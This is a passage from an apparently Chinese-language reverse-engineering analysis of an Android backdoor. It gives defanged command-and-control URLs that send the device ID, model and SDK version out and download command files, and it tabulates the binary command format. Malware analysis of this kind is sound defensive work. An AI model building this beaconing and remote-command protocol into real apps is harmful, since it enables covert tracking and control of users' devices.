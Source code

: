 [![](https://p5.ssl.qhimg.com/t0130016cce13322e5b.png)](https://p5.ssl.qhimg.com/t0130016cce13322e5b.png)

在 c.c.a.c 中，并行执行了两个方法 d() 和 c.c.a.e.c()，分别查看逻辑

[![](https://p2.ssl.qhimg.com/t015bf8b06f65a333f6.png)](https://p2.ssl.qhimg.com/t015bf8b06f65a333f6.png)

d()主要是取得一些设备信息，并 POST 发送数据。

> hxxp://download.riseknite.life/index.php?m=a&amp;p1=`{`url 编码后的 android_id`}`&amp;p2=`{`设备型号 `}`+`{`SDK 版本`}`+`{`后门版本号`}`

<th style="text-align: center;">参数</th><th style="text-align: center;">值</th>
|------
<td style="text-align: center;">m</td><td style="text-align: center;">a</td>
<td style="text-align: center;">p1</td><td style="text-align: center;">url 编码后的 android_id</td>
<td style="text-align: center;">p2</td><td style="text-align: center;">设备型号 + SDK 版本 + 后门版本号</td>

[![](https://p4.ssl.qhimg.com/t010bd6e484abce1eab.png)](https://p4.ssl.qhimg.com/t010bd6e484abce1eab.png)

c.c.a.e.c() 先创建了一个临时文件 `cmd_xxxxx.dat`（以下文件不特殊说明均为临时文件,**注意:[xxxxx为五位字符数字的随机文件名]**） ，然后下载数据写入文件

> hxxp://download.riseknite.life/index.php?m=c&amp;p1=`{`url 编码后的 android_id`}`
hxxp://download.riseknite.life/index.php?m=d&amp;p1=`{`url 编码后的 android_id`}`

<th style="text-align: center;">参数</th><th style="text-align: center;">值</th>
|------
<td style="text-align: center;">m</td><td style="text-align: center;">c,d</td>
<td style="text-align: center;">p1</td><td style="text-align: center;">url 编码后的 android_id</td>
<td style="text-align: center;">返回值</td><td style="text-align: center;">文件数据</td>

[![](https://p0.ssl.qhimg.com/t01628a6d6d554e0403.png)](https://p0.ssl.qhimg.com/t01628a6d6d554e0403.png)

新建 a 对象并把刚才下载的数据传入 a 方法， a 方法中对 dat 的内容进行了解析

<th style="text-align: center;">数据</th><th style="text-align: center;">大小</th>
|------
<td style="text-align: center;">指令类型（1-8）</td><td style="text-align: center;">int</td>
<td style="text-align: center;">指令组数量</td><td style="text-align: center;">int</td>
<td style="text-align: center;">第一组指令长度</td><td style="text-align: center;">int</td>
<td style="text-align: center;">指令内容</td><td style="text-align: center;">byte[]</td>
<td style="text-align: center;">第二组指令长度</td><td style="text-align: center;">int</td>
<td style="text-align: center;">指令内容</td><td style="text-align: center;">byte[]</td>
<td style="text-align: center;">…</td><td style="text-align: center;">…</td>

[![](https://p2.ssl.qhimg.com/t019d17f0a9192130bd.png)](https://p2.ssl.qhimg.com/t019d17f0a9192130bd.png)

[![](https://p1.ssl.qhimg.com/t0196401e436b725c04.png)](https://p1.ssl.qhimg.com/t0196401e436b725c04.png)

最终调用 a.d() 方法，a.d() 会根据指令类型执行相应的操作

指令类型为 1 时，会提醒用户更新并进行更新操作

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e6c165fc03db8f23.png)
